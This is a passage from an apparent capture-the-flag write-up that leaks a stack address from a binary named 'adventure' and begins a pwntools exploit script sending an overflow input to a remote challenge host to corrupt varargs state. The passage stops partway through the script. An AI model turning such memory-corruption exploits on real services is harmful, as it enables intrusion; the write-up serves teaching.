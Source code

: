 ![A screenshot of Python and gdb. The Python code is the same as that provided earlier; the output is 0x7ffe708a8580. The gdb section simply shows the current context and is not relevant.](./imgs/name-address-leaked-successfully.png "Leaking the Name Address")

The address in this case is `0x7ffe708a8580`. However, this is just our local version of the program. The remote version is available at `exploit.us` on port `31337` (you can see it by running `nc exploit.us 31337`). We can use our python script to do this.

```python
from pwn import *
import IPython


DEBUG = False

p = None

if DEBUG:
    p = gdb.debug('./adventure', '''
    break main
    break menuPrompt
    ''')
else:
    # p = process("./adventure")
    p = remote("exploit.us", 31337)

# IPython.embed()

# First, overwrite gp_offset so varg will begin reading at overflow_arg_area instead of reg_save_area
p.sendline(b"help"+b"A"*12)

p.recvuntil(b"Action: \n")  # Consume everything printed so far

p.recvline()  # Skip the first address
```